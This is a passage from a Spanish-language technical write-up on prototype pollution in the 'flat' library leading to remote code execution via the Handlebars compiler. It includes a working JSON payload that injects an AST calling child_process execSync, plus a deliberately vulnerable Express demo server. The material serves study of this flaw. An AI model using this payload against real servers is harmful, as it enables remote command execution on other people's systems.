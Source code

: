 ```js

    this.isSimple = bodyLength === 1;
    this.blockParams = program.blockParams ? program.blockParams.length : 0;

    return this;
}
...
```
Cuando el compilador recive un Objeto AST este es enviado a la funcion ``accept`` donde comprueba el tipo si es un tipo esperado, en caso de que no lo sea lanza una excepcion pero en caso que sea un tipo esperado el programa avanza. Posteriormente en la funcion Program recoge el atributo body del AST i lo utiliza para crear una function. Por lo que nosotros podremos inyectar cualquier codigo si vamos a traves del parser. Para hacerlo tendremos que assignar un string que no puede ser assignado como valor al tipo NumberLiteral. Pero como el AST inyectado procede, el codigo se ejecutarà. Por lo que podriamos hacer algo como:

```json
{
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.
                        require('child_process').
                            execSync(`fsutil file createnew prova1.txt 2000`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
}
```

Podemos observar que esta peticion lo que pretende es contaminar los objectos con los campos type y body con los campos especificos para que al ejectutar la funcion compile de modulo de handlevasr nos permita ejecutar codigo remoto. Para que esto sea efectivo voy a mostrar una pequeña muestra de como tendria que funcionar el servidor para que esto ocurriese.

```js
const express = require('express');
const unflatten = require('flat').unflatten;
const bodyParser = require('body-parser');
const Handlebars  = require('handlebars');

const app = express();
app.use(bodyParser.json())

app.get('/', function (req, res) {
    var source = "<h1>La pagina esta funcionant!</h1>";

    var template = Handlebars.compile(source);
    res.end(template({}));
});

app.post('/vulnerable', function (req, res) {

    let object = unflatten(req.body);
    res.json(object);

});

app.listen(3000);
```